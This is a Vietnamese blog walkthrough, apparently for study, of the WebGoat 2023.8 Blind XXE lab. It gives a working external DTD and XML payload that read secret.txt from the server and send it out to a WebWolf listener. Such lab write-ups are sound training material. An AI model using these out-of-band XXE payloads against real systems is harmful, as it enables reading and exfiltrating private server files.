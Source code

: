 ```yaml
---
title: 1.11 | XXE
slug: XXE-11
description: Bài viết này sẽ hướng dẫn cách tấn công XXE trên WebGoat 2023.8
image: https://tiennhm.github.io/img/docs/database.jpg
sidebar_position: 1
# sidebar_class_name: hidden
tags: 
    - web-security
    - webgoat
    - security-misconfiguration
    - xxe
    - webgoat-2023.8
keywords: [web-security, webgoat, security-misconfiguration, xxe, webgoat-2023.8]
enableComments: true # for Gisqus comments, set to true
draft: false # set to true to hide this post from the site
---
```


Đây là bài tập Blind XXE nâng cao, yêu cầu bạn tạo một file DTD để tải nội dung của tệp `secret.txt` từ server WebGoat lên WebWolf. Dưới đây là hướng dẫn chi tiết để thực hiện bài này.

### **1. Tạo DTD để đọc file và gửi đến WebWolf**
Bạn cần tạo một file **`attack.dtd`** và tải nó lên WebWolf. File này sẽ chứa đoạn mã sau:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:////home/webgoat/.webgoat-2023.8//XXE/viquocthuan/secret.txt">
<!ENTITY % send "<!ENTITY send SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=%file;'>">
%send;
```

**Giải thích:**
- `%file`: Truy cập nội dung của file `secret.txt` trên máy WebGoat.
- `%send`: Gửi nội dung của file `secret.txt` đến endpoint của WebWolf qua HTTP GET.


### **2. Upload `attack.dtd` lên WebWolf**
- Truy cập WebWolf tại `http://127.0.0.1:9090/WebWolf/home`.
- Trong phần upload, chọn **`attack.dtd`** để tải lên.
- Khi tải lên thành công, WebWolf sẽ hiển thị một đường link trỏ đến file này, ví dụ:  
  ```
  http://127.0.0.1:9090/WebWolf/files/username/attack.dtd
  ```


### **3. Gửi XXE Payload trong WebGoat**
Khi gửi request chứa XML, bạn cần sử dụng `attack.dtd` bằng cách chèn vào request như sau:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % external SYSTEM "http://127.0.0.1:9090/WebWolf/files/username/attack.dtd">
  %external;
]>
<comment><text>test &send;</text></comment>
```

**Giải thích:**
- `%external;`: Load file `attack.dtd` từ WebWolf.
- `&send;`: Kích hoạt gửi nội dung file `secret.txt` đến WebWolf.


### **4. Kiểm tra kết quả trên WebWolf**
- Truy cập **WebWolf > Incoming requests**.
- Nếu thành công, bạn sẽ thấy một request chứa nội dung file `secret.txt` trong tham số `text`.


### **5. Gửi nội dung file để hoàn thành bài tập**
- Copy nội dung `secret.txt` mà bạn nhận được từ WebWolf.
- Quay lại WebGoat, post một comment chứa nội dung này để hoàn thành bài tập.


### 📌 **Tóm tắt**
✔ Tạo file `attack.dtd` để đọc file và gửi đến WebWolf.  
✔ Upload `attack.dtd` lên WebWolf.  
✔ Gửi XML request đến WebGoat để kích hoạt XXE.  
✔ Xem nội dung file `secret.txt` trong WebWolf.  
✔ Post nội dung để hoàn thành bài tập.  

Nếu có lỗi hoặc không thấy nội dung file, kiểm tra lại:
- Đường dẫn file `secret.txt` có chính xác không.
- WebWolf có nhận được request không (kiểm tra log).
- Có chặn firewall nào ngăn chặn request ra ngoài không.
